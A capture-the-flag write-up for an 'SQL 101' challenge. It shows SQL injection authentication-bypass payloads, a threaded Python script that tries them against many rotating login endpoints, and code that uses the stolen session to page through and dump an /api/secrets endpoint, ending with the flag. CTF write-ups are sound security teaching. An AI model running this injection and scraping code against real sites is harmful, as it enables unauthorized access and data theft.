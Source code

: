 # SQL 101 CTF Challenge Writeup

**Solved by**: thorn5011

## tl;dr

1. Getting all endpoints
2. Finding the one with the SQL injection vulnerability
3. Getting a session token
4. Paginate through all "secret" pages
5. ????
6. PROFIT!!!


## Intro

Based off the challenge description we know the following:
- We know we have 60 seconds before our sessions timeout
- Login endpoints rotate each 30 seconds

This seems a bit annoying, but we'll try. Since the challenge is called "SQL 101", we can be *pretty* certain that there will be a SQL injection somewhere.

## Login

The URL https://dragonslayerz-70ff-allthoseforms.ept.gg/login show us a loooot of logins.. there will be one manual testing here.. :(

![login.png](./assets/login.png)

It is probably not a hard injection to find since there are other challenge parameters to take into consideration so we will just test a few simple ones from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass).

Endpoint example: `https://dragonslayerz-70ff-allthoseforms.ept.gg/login/oSqsOlTWk5` where `oSqsOlTWk5` will be unique for each endpoint and it changes every 30 seconds. We can extract them with python -> `re.findall(r'action="/login/(.+?)"', response.text)`.

Since we have a short time before the endpoints rotate and we have ~100 of them to hit, we'll use threads in python.

```py

injects = [
    "admin' or '1'='1'--",
    "admin' or '1'='1",
    "admin' or '1'='1'#",
    ## ...
]


def get_endpoints() -> list:
    response = requests.get(url)
    res = re.findall(r'action="/login/(.+?)"', response.text)
    return res


def check_for_sql(endpoint:str, inject:str):
    full = url + "/" + endpoint
    response = session.post(full, data={"username": inject, "password": "a" + inject}, allow_redirects=True)
    if "Invalid login credentials" in response.text:
        return True
    elif "Either the server is overloaded" in response.text:
        return False
    else:
        print(f"[!] SQL Injection found at {endpoint} with: >> {inject} <<")
        global vuln_endpoint
        vuln_endpoint = endpoint
        return True

def run_check(endpoint):
    for inject in injects:
        while check_for_sql(endpoint, inject) is False:
            time.sleep(0.3)

def find_endpoint():
    endpoints = get_endpoints()
    threads = []
    for endpoint in endpoints:
        thread = threading.Thread(target=run_check, args=(endpoint,))
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()


if __name__ == "__main__":
    find_endpoint()
```
Log: `[!] SQL Injection found at d2jRjJQxz3 with: >> admin' or '1'='1'-- <<`

This gives ut what we need - `admin' or '1'='1'--` will be used to inject.

## Beyond the login

After a successful login we can find a reference to some "API docs"

```html
We are currently building out features, but check out the <a href="/api-docs" style="text-decoration: none; color: inherit;">API documentation</a> if you can't wait.
```

We also get a `session` we can use..for 60 seconds.. I assume there will be some reason for us to refresh it down the line.

```py
{
    'User-Agent': 'python-requests/2.32.3', 
    'Accept-Encoding': 'gzip, deflate, zstd',
    'Accept': '*/*',
    'Connection': 'keep-alive',
    'Cookie': 'session=eyJ1c2VyX2lkIjoxfQ.ZyvZ5g.esIJ0y3NmtmN2CP2pRgCHi8LHHQ'
}
```

## API docs

Looking at the docs we can see an endpoint -> `api/secrets`.
```html
<pre>
<b>Parameters:</b>
- <b>page</b> (optional): The page number to retrieve (default is 1).
- <b>page_size</b> (optional): The number of secrets per page. Can be 5, 10, or 20 (default is 5).

<b>Returns:</b> A JSON object with the following fields:
- <b>page</b>: The current page number.
- <b>page_size</b>: The number of secrets per page.
- <b>total_pages</b>: The total number of pages available.
- <b>secrets</b>: A JSON array of message objects for the current page.

<b>Example request:</b>
curl -X GET "http://example.com/api/secrets?page=2&page_size=10"

<b>Example response:</b>
{
"page": 2,
"page_size": 10,
"total_pages": 5,
"secrets": [
    {
    "id": 11,
    "text": "Message on page 2"
    },
    {
    "id": 12,
    "text": "Another message on page 2"
    }
]
}
</pre>
```

## Secrets

This means we can try and grab all the secrets as longs as we do some pagination on the `page` parameter.

```py
def get_secrets(session):
    data = []
    full = url.replace("/login","/api/secrets")
    response = session.get(full, params={"page": 1, "page_size": 20})
    for i in range(1, response.json()["total_pages"]):
        print(f"[+] Getting page {i}")
        response = session.get(full, params={"page": i, "page_size": 20})
        try:
            data.append(response.json()["secrets"])
        except requests.exceptions.JSONDecodeError:
            print(f"[!] Failed to decode JSON on page {i}")
            if "Your flash messages here" in response.text:
                print(f"[+] Found flash messages, sessions timed out")
            session = goinject() ## refresh session
    print(f"[+] Secrets: {len(data)}")
    with open("results.txt", "w") as file:
        file.write(f"[+] Secrets:\n{json.dumps(data, indent=4)}\n\n")
```

One "secret" looks like this `{'id': 1, 'text': 'Like new make admit smile between buy wall.'}`. There will for sure be a flag there so we will try and extract it.

## Results

Putting this all together we get the final [script](solve.py), which when executed leaves us with the flag.

```sh
[+] Starting..
[!] SQL Injection found at qlw08LFFv9 with: >> admin' or '1'='1'-- <<
[+] Successfully injected at 'https://dragonslayerz-70ff-allthoseforms.ept.gg/login/qlw08LFFv9'
[+] Total pages: 126
[+] Starting to get secrets..
.................................................
[!] Failed to decode JSON on page 50, refreshing session

[!] SQL Injection found at lMy0Uxq5yE with: >> admin' or '1'='1'-- <<
[+] Successfully injected at 'https://dragonslayerz-70ff-allthoseforms.ept.gg/login/lMy0Uxq5yE'
................................................................
[!] Failed to decode JSON on page 114, refreshing session

[!] SQL Injection found at fMP4ZemaCm with: >> admin' or '1'='1'-- <<
[+] Successfully injected at 'https://dragonslayerz-70ff-allthoseforms.ept.gg/login/fMP4ZemaCm'
...........

[+] Found secret: EPT{0ae0fbea-9a8c-4b2c-8e33-b383c8c8f94f}
[+] Time taken: 116.41542053222656
[+] Done
```
